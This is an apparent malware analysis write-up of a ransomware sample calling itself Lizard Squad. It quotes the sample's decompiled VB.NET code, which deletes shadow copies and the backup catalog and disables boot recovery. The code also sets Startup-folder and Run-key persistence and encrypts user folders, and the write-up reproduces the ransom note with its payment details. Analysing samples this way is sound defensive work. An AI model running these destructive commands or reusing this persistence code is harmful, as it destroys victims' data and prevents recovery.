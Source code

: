 # Analysis Lizard Squad Ransomware 


[Twitter](https://twitter.com/patri1ck)


Hello Guys ,Today We Will Analysis Ransomware Sample That I Found On Twitter Account [Tweet](https://twitter.com/petrovic082/status/1546833472353968129?s=21) 

Let's Dive Into It 

## Functions 
- [Delete Shadow Copies](#Delete-Shadow-Copies:)
- [Disable Recovery Mode](#Disable-Recovery-Mode:)
- [Delete Backup Catalog](#Delete-Backup-Catalog:)
- [Add Link To Startup](#Add-Link-To-Startup:)
- [Registry Startup](#Registry-Startup:)
- [look For Directories](#look-For-Directories:)
- [Set Wallpaper](#Set-Wallpaper:)
- [Add And Open Note](#Add-And-Open-Note:)

## Delete Shadow Copies:
    Will Execute This Command :
        "vssadmin delete shadows /all /quiet & wmic shadowcopy delete"
    For Delete Shadows copies
<details>
    <summary>Code (click to expand/collapse)</summary>

Private Shared Sub DeleteShadowCopies()
    Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete")
End Sub

</details>

## Disable Recovery Mode:
    Will Execute This Command :
        "bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no"
	to Disable Recovery Mode This Command will Not Allow To The Victim To Use The Recovery Mode 
<details>
    <summary>Code (click to expand/collapse)</summary>

Private Shared Sub DisableRecoveryMode()
    Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no")
End Sub
</details>

## Delete Backup Catalog:
	Will Execute This Command :
		"wbadmin delete catalog -quiet"
	To Delete BackUp Catalog 
<details>
    <summary>Code (click to expand/collapse)</summary>

Private Shared Sub DisableRecoveryMode()
    Program.runCommand("wbadmin delete catalog -quiet")
End Sub

</details>

## Add Link To Startup:
    Make lnk File in startup 
	For persistence
<details>
    <summary>Code (click to expand/collapse)</summary>
Private Shared Sub AddLinkToStartup()
	Dim folderPath As String = Enviroment.GetFolderPath(Enviroment.SpecialFolder.Startup)
	Dim str As String = Process.GetCurrentProcess().ProcessName
	Using streamWriter As StreamWriter = New StreamWriter(folderPath + "\" + str + ".url")
		Dim location As String = Assembly.GetExecutingAssembly().location
		streamWriter.WriteLine("[InternetShortcut]")
		streamWriter.WriteLine("URL=file:///"+location)
		streamWriter.WriteLine("iconIndex=0")
		Dim str2 As String = location.Replace("\"c,"/"c)
		streamWriter.WriteLine("IconFile=" + str2)
		End Using
End Sub

</details>

## Registry Startup:
    Set Registry Name Value "Microsoft Store" And Will Set Registry Value Data to The RansomWare Path 
	The Key :
		"HKCU/SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	To Do persistence
## look For Directories:
	This Function Will Look For Directories And Encrypted It
	The List Of The Directories as Saved As String With User Main Dir 
- Desktop
- Links
- Contacts
- Documents
- Downloads
- Pictures
- Music
- OneDrive
- Saved Games
- Favorites
- Searches
- Videos

<details>
    <summary>Code (click to expand/collapse)</summary>

Dim location As String = Program.userDir + Program.userName + "\Desktop"
Dim location2 As String = Program.userDir + Program.userName + "\Links"
Dim location3 As String = Program.userDir + Program.userName + "\Contacts"
Dim location4 As String = Program.userDir + Program.userName + "\Desktop"
Dim location5 As String = Program.userDir + Program.userName + "\Documents"
Dim location6 As String = Program.userDir + Program.userName + "\Downloads"
Dim location7 As String = Program.userDir + Program.userName + "\Pictures"
Dim location8 As String = Program.userDir + Program.userName + "\Music"
Dim location9 As String = Program.userDir + Program.userName + "\OneDrive"
Dim location10 As String = Program.userDir + Program.userName + "\Saved Games"
Dim location11 As String = Program.userDir + Program.userName + "\Favorites"
Dim location12 As String = Program.userDir + Program.userName + "\Searches"
Dim location13 As String = Program.userDir + Program.userName + "\Videos"
Program.encryptDirectory(location)
Program.encryptDirectory(location2)
Program.encryptDirectory(location3)
Program.encryptDirectory(location4)
Program.encryptDirectory(location5)
Program.encryptDirectory(location6)
Program.encryptDirectory(location7)
Program.encryptDirectory(location8)
Program.encryptDirectory(location9)
Program.encryptDirectory(location10)
Program.encryptDirectory(location11)
Program.encryptDirectory(location12)
Program.encryptDirectory(location13) 
```
## !Dump! He Could Do It With For Loop !
</details>

## Set Wallpaper:
    This func Will Change The Wallpaper
	To This Image :
[![N|Solid](https://pbs.twimg.com/media/FXd016dXoAYn99q?format=jpg&name=small)
<details>
    <summary>Code (click to expand/collapse)</summary>

Public Shared Sub SetWallpaper(base64 As string)
  if base64 <> "" Then
    Try
      Dim text As String = Path.GetTempPath() + Program.RandomString(9) + ".jpg"
      File.WriteAllBytes(text,Convert.FromBase64String(base64))
      Program.SystemParametersInfo(20UI, 0UI,text,1UI)
    Catch
    End Try
  End If
End Sub

</details>
	
## Add And Open Note:
    This Function Will Write Message For Victim
	The Name Of a File "說明it.txt" 
	And The Message :
	"我來自一個名為：蜥蜴小隊的國際組織", "我們是黑客組織", "我的名字是：09先生", "我會用你的電腦作為收款的抵押品", "", "請支付：USDT-TRC20", "金額：2000", "付款地址：TRZRAM9KL5qv1BMrXxo876wetHfzT19sii", "聯繫方式 ：woo090909@mail2tor.com", "電報：@woo090909", "付款後聯繫我，我會為你解鎖", "如果您不付款，您的計算機和文件將被自動銷毀，", "如果你真的想解決，請隨時支付費用，聯繫我，我會考慮給你打折", 
	"I'm from an international organization called: Lizard Squad , we are a hacker group , My name is: Mr. 09 , I will use your computer as collateral for collection , Please pay: USDT-TRC20 , Amount: 2000 , Payment address: TRZRAM9KL5qv1BMrXxo876wetHfzT19sii , contact details : woo090909@mail2tor.com , telegraph: @woo090909 , Contact me after payment and I will unlock it for you , If you do not pay, your computer and files will be automatically destroyed , If you really want a fix, feel free to pay the fee, contact me and I'll consider giving you a discount" 
Hmmm , The Name Of The Group Looks Familiar To Me :
	https://en.wikipedia.org/wiki/Lizard_Squad

> it seems To me The Ransomware Has Been Built By Ransomware Builder Because I Found It In The source Code , there are Functions Not Used By The Ransomware Sample That I Have And I See Settings Strings Not Used
